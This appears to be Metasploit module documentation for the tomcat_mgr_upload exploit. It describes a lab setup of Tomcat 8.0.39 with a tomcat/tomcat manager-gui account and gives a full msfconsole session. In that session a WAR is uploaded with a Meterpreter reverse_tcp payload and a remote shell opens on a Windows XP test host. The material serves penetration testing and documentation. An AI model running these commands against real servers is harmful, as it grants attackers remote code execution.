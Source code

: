 ### Tomcat 8 (8.0.39)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat8](http://apache.osuosl.org/tomcat/tomcat-8/v8.0.39/bin/apache-tomcat-8.0.39.exe)

The install was default, other than adding a user during install.  No other options were changed.

#### Exploitation

1. If a user was not defined at install, you will need to add a `manager-gui` permission user.  Edit `C:\Program Files\Apache Software Foundation\Tomcat 8.0\tomcat-users.xml` to add the following under the `<tomcat-users` line:

```xml
<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
```

2. Restart the service if a user was added/changed

3. Exploitation:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set rport 8088
rport => 8088
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(tomcat_mgr_upload) > set verbose true
verbose => true
msf exploit(tomcat_mgr_upload) > check

[*] Tomcat Manager found running on win platform and x86 architecture
[!] No active DB -- Credential data will not be saved!
[*] 192.168.2.108:8088 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Retrieving session ID and CSRF token...
[*] Finding CSRF token...
[*] Uploading and deploying AiV6YUyTkEpIK5G87r0gmdf8fFH...
[*] Uploading 6094 bytes as AiV6YUyTkEpIK5G87r0gmdf8fFH.war ...
[*] Executing AiV6YUyTkEpIK5G87r0gmdf8fFH...
[*] Executing /AiV6YUyTkEpIK5G87r0gmdf8fFH/u9TOPpZzy6dj21L.jsp...
[*] Finding CSRF token...
[*] Undeploying AiV6YUyTkEpIK5G87r0gmdf8fFH ...
[*] Sending stage (49409 bytes) to 192.168.2.108
[*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:3508) at 2017-01-15 19:38:29 -0500

meterpreter > sysinfo
Computer    : winxp
OS          : Windows XP 5.1 (x86)
```